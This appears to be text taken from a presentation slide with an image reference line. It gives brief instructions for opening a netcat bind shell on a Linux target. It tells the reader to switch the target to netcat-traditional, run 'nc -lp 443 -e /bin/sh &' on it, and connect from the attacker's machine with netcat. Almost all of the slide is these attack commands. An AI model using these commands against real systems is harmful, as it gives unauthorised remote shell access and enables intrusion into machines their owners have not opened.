

#
For linux, a bit different
Make sure the target machine has netcat TRADITIONAL
Sudo update-alternatives --config nc
Select /bin/nc.traditional
Once you have that selected
On target machine:
Nc -lp 443 -e /bin/sh &
On your machine:
Nc target.ip port